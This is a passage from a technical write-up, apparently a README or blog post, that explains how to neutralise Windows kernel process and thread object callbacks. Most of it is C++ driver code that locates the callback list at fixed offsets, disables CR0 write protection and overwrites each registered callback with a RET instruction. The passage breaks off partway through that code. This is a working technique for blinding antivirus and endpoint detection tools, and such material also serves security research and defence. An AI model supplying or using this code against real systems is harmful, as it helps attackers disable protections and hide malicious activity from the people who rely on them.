 #### 2.3 Show me the code!

The above mentioned global variables `**PsProcessType` and `**PsThreatType` can be used to grab a `POBJECT_TYPE` struct, which contains the `LIST_ENTRY CallbackList` address at offset `0xC8`.

```c++
PVOID* FindObRegisterCallbacksListHead(POBJECT_TYPE pObType) {
  //POBJECT_TYPE pObType = *PsProcessType;
	return (PVOID*)((__int64)pObType + 0xc8);
}
```

The CallbackList address can then be used to enumerate the linked list in a similar manner as the registry callback list and patch the pre- and post-operation callback function pointers. The pre- and post-operation callbacks are located at offsets `0x28` and `0x30` in the `CALLBACK_ENTRY_ITEM` structure.

```c++
for (pEntry = (PLIST_ENTRY)*callbackListHead, i = 0; NT_SUCCESS(status) && (pEntry != (PLIST_ENTRY)callbackListHead); pEntry = (PLIST_ENTRY)(pEntry->Flink), i++) {
  if (i == index) {
    //grab pre-operation callback function address at offset 0x28
    auto preOpCallbackFuncAddr = *(ULONG64*)((ULONG_PTR)pEntry + 0x28);
    if (MmIsAddressValid((PVOID*)preOpCallbackFuncAddr)) {
      CR0_WP_OFF_x64();

      //get a pointer to the registered callback function
      PULONG64 pPointer = (PULONG64)preOpCallbackFuncAddr;

      //save the original instruction, used to restore the callback
      switch (callback) {
        case object_process:
          g_CallbackGlobals.ObjectProcessCallbacks[index][0].patched = true;
          memcpy(g_CallbackGlobals.ObjectProcessCallbacks[index][0].instruction, pPointer, 8);
          break;
        case object_thread:
          g_CallbackGlobals.ObjectThreadCallbacks[index][0].patched = true;
          memcpy(g_CallbackGlobals.ObjectThreadCallbacks[index][0].instruction, pPointer, 8);
          break;
        default:
          return STATUS_NOT_SUPPORTED;
          break;
      }

      //patch the callback function with a RET (0xC3)
      *pPointer = (ULONG64)0xC3;

      CR0_WP_ON_x64();

      return STATUS_SUCCESS;
    }

    //grab post-operation callback function address at offset 0x30
    auto postOpCallbackFuncAddr = *(ULONG64*)((ULONG_PTR)pEntry + 0x30);
    if (MmIsAddressValid((PVOID*)postOpCallbackFuncAddr)) {
      CR0_WP_OFF_x64();

      //get a pointer to the registered callback function
      PULONG64 pPointer = (PULONG64)postOpCallbackFuncAddr;

      //save the original instruction, used to restore the callback
      switch (callback) {
        case object_process:
          g_CallbackGlobals.ObjectProcessCallbacks[index][1].patched = true;
          memcpy(g_CallbackGlobals.ObjectProcessCallbacks[index][1].instruction, pPointer, 8);
          break;
```